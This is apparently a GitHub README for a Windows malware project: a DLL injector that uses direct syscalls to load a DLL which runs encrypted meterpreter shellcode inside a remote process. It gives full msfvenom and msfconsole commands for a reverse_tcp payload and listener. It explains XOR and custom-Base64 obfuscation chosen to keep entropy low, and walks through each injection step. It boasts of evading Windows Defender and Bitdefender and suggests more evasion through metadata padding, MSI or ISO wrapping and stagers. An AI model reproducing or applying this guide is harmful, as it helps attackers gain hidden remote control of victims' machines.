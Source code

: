 # Direct Syscall DLL Injection


<img src=media/dirsyscall-dll-inj-reshacked-msi.png align="left" width=200>

Dll injector in a remote process using direct system calls resolved dynamically from ntdll.dll, the Dll uses Syscalls to inject encrypted shellcode into the same process, undetected by Windows Defender and Bitdefender. This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code

Similar to the simple Process Injection using Syscalls i made earlier, this malware bypasses Windows Api and part of Native api by using direct syscalls, which are CPU instructions (mostly assembly) that transition from user mode to kernel mode. This bypasses AV hooks, EDRs, and reduces static IAT footprint.

Its a more advanced and stealthier version of my previous dll injector, which used Native api functions.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload, alternatively you can just use the already set shellcode in the code (simple messagbox that says xd):
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they raise the entropy levels too much.

### 2) Injector

The injector loads the dynamic library onto disk, looks for a specific process and injects the library into it, remember to disable pre compiled headers like phc before compiling:

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID iterating through a pre-made linked list of ```SYSTEM_PROCESS_INFORMATION``` structs representing all running processes;
- We allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the handle to kernel32.dll and ntdll.dll and dynamically resolve the address of LoadLibraryA using ```LdrGetProcedureAddress```;
- Finally we create a thread that executes the function that loads the malicious dll;
- The Dll decodes the data and uploads it to memory, creating the shell;

The syscalls replace the classic WinApi and NativeApi functions: 

- First we read the ntdll.dll export table to find the offset for each syscall;
- In the assembly file you can find the stubs for each function, heres an example: ```mov eax, <syscall_number>```;
- Then we store the syscall numbers globally in ```injection.h```;
- Each variable stores the runtime-resolved number of every Nt* function;
- When using any function we just call the syscall: ```Status = NtOpenProcess(&ProcessHandle, PROCESS_ALL_ACCESS, &OA, &CID)```;

### 3) DLL

The syscalls are used both in the DLL and in the injector, unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll.dll``` functions are sometimes less likely to be hooked by EDRs at user level, because most interactions with the target are done via direct system calls resolved dynamically from ntdll.dll, we should theoreticall bypass any user-mode hooks.

- In order to use Ntdll and syscalls we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- To avoid loader lock issues, a small thread is spawned immediately after the DLL being attached;
- When the library is attached to the process, it decodes the obfuscated shellcode, allocates memory for it, writes it into this memory chunk, and sets the correct permissions;
- Finally it creates a thread into the same process its being injected into and the previously uploaded shellcode will be executed.


# 🛡 AV Detection

This malware successfully bypasses Windows Defender and Bitdefender!!! 😊 yeee

But AVs look for certain patterns like creating a thread right after execution, so the exe is still detectable by strong AVs or industrial level firewalls...

Here's the DLL, the raw one and the one obfuscated by inserting ntdll metadata into it.

<img src=media/dirsyscall-dll.png align="left" width=200>

<img src=media/dirsyscall-dll-reshacked.png align="left" width=200>

Here's the injector, the raw one, the one obfuscated by inserting vs_community metadata into it, and the MSI wrapped version.

You can obfuscate it even more using tools like soggoth, or by turning it into an iso/linker file, or by using multiple stagers.

The raw one gets more detection than the classic process injection because it extracts the dll and writes it on disk, in the future i will try to inject it directly into the target process with a technique known as manual mapping.

<img src=media/dirsyscall-dll-inj.png align="left" width=200>

<img src=media/dirsyscall-dll-inj-reshacked.png align="left" width=200>

<img src=media/dirsyscall-dll-inj-reshacked-msi.png align="left" width=200>
